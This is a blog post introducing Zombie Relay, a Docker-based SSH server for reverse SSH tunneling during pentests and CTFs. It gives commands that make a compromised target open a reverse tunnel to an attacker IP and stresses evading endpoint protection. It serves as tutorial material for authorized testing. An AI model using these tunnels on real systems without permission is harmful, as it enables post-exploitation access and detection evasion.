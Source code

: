 ```yaml
---
layout: post
title: Zombie Relay - Temporary relay for Reverse SSH Tunneling
date: 2025-04-19
categories: [Cybersecurity, CTF, Pentest, Docker]
tags: [cybersecurity, docker, ssh, pentest, ctf]
---
```


![](/assets/images/zombierelay_banner_wb1.jpg)

📂 Repository: [Zombie Relay - Github](https://github.com/0xyy66/ZombieRelay)

It is not uncommon to find web services running only on the loopback interface while enumerating a system after gaining a foothold on it during a penetration test (or a CTF). How do you visit them if you don't have access to a browser on the remote host? If you accessed the target via SSH or got an instable reverse shell after exploiting some external service?

The answer to the aforementioned problem is **tunneling**: in simple terms, you set up a tunnel on the target that redirects traffic from your host to the interface and port hosting the local service.

There are various ways to achieve this, but my favorite is using **SSH** because it doesn’t require dropping executables on the target, which could potentially trigger any antimalware or endpoint protection system running on the target machine, even just due to a signature match.

If the target hosts an SSH server and you know some remote user's credentials, you don't need anything else than running the following command on your host.

```sh
ssh -L 8080:127.0.0.1:8080 user@target.htb -N -f
```

However, there are cases where you don't have credentials to access SSH or the target doesn't even have an SSH server running. What can you do then?

You can do it the other way around: make the target initiate an SSH connection to your machine hosting an SSH server, effectively creating a reverse tunnel from the target to your host.

Since giving access to your host to the target is not a good idea, I created **Zombie Relay**, a docker-compose script to build an Alpine container with an OpenSSH server installed. **Designed to die and rise again, just like a zombie**.

- Easy to setup
- Temporary
- Doesn't expose your host file system
- You don't need to drop any noisy executable on the target

## How it works

### Configuration - tuning your zombie

Before building the container, I suggest to take a look at the `docker-compose.yml` file. 

```yml
services:
  zombierelay:
    image: alpine:latest
    ports:
      - "2224:22"
      - "9090:9090"
```

By default only 2 ports are mapped:

- 2224:22 - exposes OpenSSH on your host on port 2224
- 9090:9090 - you will tunnel the remote service through port 9090 of the container and it will be available on port 9090 of your host.

**You can map as many ports as you need**, just append another line to ports (e.g. `- "80:8080"`).

### Raising a zombie

Spawning a Zombie Relay container is as easy as running `docker compose up`.

![](/assets/images/zombierelay_attacker_docker.png)

Everytime you create the container, the compose will automatically create a new private key. Drop it on the target to connect to the container.

Run the following command to copy the key from the container to your host.

```sh
docker cp $(docker ps -l -q):/root/.ssh/id_ed25519 .
```

### Tunnel the remote service to your host

For this part, I set up a Python HTTP server running on port 8080 **locally**. When a local user visits the website root, he receives the message "Internal service only".

![](/assets/images/zombierelay_victim_1.png)

It's now time to drop the zombie's private key on the target and tunnel the local service. Don't forget to **change the file's permissions to 600** (`chmod 600 id_ed25519`). 

Finally, run the ssh command to reverse tunnel the service.

```sh
ssh -i id_ed25519 -p 2224 -R 9090:127.0.0.1:8080 root@10.10.14.20 -N -f
```

In this case, I'm mapping the local service running on port 8080 to the Zombie Relay port 9090, which is mapped on my host on port 9090.

> In my docker-compose file the port is mapped as `8080:9090`

![](/assets/images/zombierelay_victim_2.png)

> The `-N` and `-f` flags, are useful to prevent spawning an SSH session on the container or leaving the remote shell suspended.

### Accessing the remote "internal service only" locally

Lastly, once the remote local service is tunneled to your host, open your browser and navigate to it via the mapped port (9090 in this case).

![](/assets/images/zombierelay_attacker_tunneled_service.png)

### Kill the zombie

Once you no longer need the relay, simply run the following command to stop and remove the latest container created.

```sh
docker stop $(docker ps -l -q) && docker rm $(docker ps -l -q)
```

> BEWARE: If Zombie Relay is not the most recent container created, the command will remove a different container. To avoid this, use the container's name instead (e.g., `zombierelay-zombierelay-1` if you cloned the repo).

## Conclusion

The relay is easy to set up, portable, and (hopefully) stealthier than dropping a binary on the target. A health check is in the works to help with connectivity issues. Suggestions and feedback are more than welcome.

📂 Repository: [Zombie Relay - Github](https://github.com/0xyy66/ZombieRelay)
